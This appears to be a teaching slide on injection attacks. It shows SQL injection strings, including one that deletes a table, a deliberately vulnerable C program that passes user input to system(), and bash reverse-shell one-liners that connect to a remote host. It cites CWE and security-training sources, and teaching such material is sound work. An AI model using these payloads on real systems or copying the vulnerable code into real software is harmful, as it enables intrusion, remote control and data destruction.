

# INJECTION
SQL Injection
soubhik; delete * from student
soubhik’ OR ‘1’ =‘1
Code Injection example NullByte Injection (NGINX)
#include <stdio.h>
#include <unistd.h>
int main(int argc, char **argv) {
char cat[] = "cat ";
char *command;
size_t commandLength;
commandLength = strlen(cat) + strlen(argv[1]) + 1;
command = (char *) malloc(commandLength);
strncpy(command, cat, commandLength);
strncat(command, argv[1], (commandLength - strlen(cat)) );
system(command);
return (0);
}
https://cwe.mitre.org/data/definitions/77.html
https://learn.snyk.io/lessons/malicious-code-injection/javascript/
https://support.f5.com/csp/article/K12331123

Reverse Shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&10<&196;exec 196<>/dev/tcp/<your IP>/<same unfiltered port>; sh <&196 >&196 2>&196
https://pravinponnusamy.medium.com/reverse-shell-payloads-969366fa5aff
https://www.offensive-security.com/metasploit-unleashed/binary-payloads/